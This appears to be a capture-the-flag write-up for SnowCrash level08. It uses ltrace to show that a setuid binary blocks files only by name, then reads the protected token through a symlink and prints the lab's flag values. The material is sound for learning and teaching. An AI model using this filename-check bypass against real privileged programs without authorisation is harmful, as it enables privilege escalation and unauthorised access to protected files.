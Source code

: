 ## Level 08

## Clues

```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
level08@SnowCrash:~$
```

We have an executable to trick, and a token file

```
level08@SnowCrash:~$ cat token 
cat: token: Permission denied
level08@SnowCrash:~$ file token
token: regular file, no read permission
level08@SnowCrash:~$ 
```

We cannot do anything with that file, so it might contain our flag inside.

Lets see what the executable does :

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$ ./level08 blabla
level08: Unable to open blabla: No such file or directory
level08@SnowCrash:~$ touch /tmp/file.txt
level08@SnowCrash:~$ echo "hehe" > /tmp/file.txt
level08@SnowCrash:~$ ./level08 /tmp/file.txt
hehe
```

So this executable takes a file path in argument, open it and prints out its content.

When we give it the token file, it says "You may not access token"

Maybe the executable checks our right before opening the file ?

Lets see what it is really doing :

```
level08@SnowCrash:~$ ltrace ./level08 
printf("%s [file to read]\n", "./level08"./level08 [file to read]) = 25
exit(1 <unfinished ...>


level08@SnowCrash:~$ ltrace ./level08 blabla
strstr("blabla", "token") = NULL
open("blabla", 0, 014435162522)  = -1
err(1, 0x80487b2, 0xbffff91e, 0xb7fe765d, 0xb7e3ebaflevel08: Unable to open blabla: No such file or directory


level08@SnowCrash:~$ ltrace ./level08 token
strstr("token", "token")= "token"
printf("You may not access '%s'\n", "token"You may not access 'token') = 27


level08@SnowCrash:~$ ltrace ./level08 /tmp/file.txt
strstr("/tmp/file.txt", "token") = NULL
open("/tmp/file.txt", 0, 014435162522) = 3
read(3, "hehe\n", 1024) = 5
write(1, "hehe\n", 5) = 5
```

If we take a closer look, there is an obvious behavior.

When you give it no argument it only prints out an error message.

When you give it a file that doesn't exist, it will compare using strstr the name of the file, with "token" and try to open it.

So if we give him "token" as a filename, the strstr function will return a positive pointer, and will print out that we cannot access the file named token.

And finally when we give him a real file that is not named token, it will open it, read it and print the content.


This reverse engineering process showed us that the program doesn't check our ID in order to check that we can or can't open the token file, it only use the filename !


## Solution

Since the program will never open a file a named "token", the only way to make it open a file is by using another name.

Lets try with a symbolic link.


```
level08@SnowCrash:~$ cd /tmp
level08@SnowCrash:/tmp$ ln -s ~/token ImNotAToken
level08@SnowCrash:/tmp$ cd
level08@SnowCrash:~$ ./level08 /tmp/ImNotAToken
quif5eloekouj29ke0vouxean
```

Once again we move to /tmp in order to create our file.

And its working ! We have our flag.

```
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$ 
```

## What i learned

More reverse engineering experience

More curiosity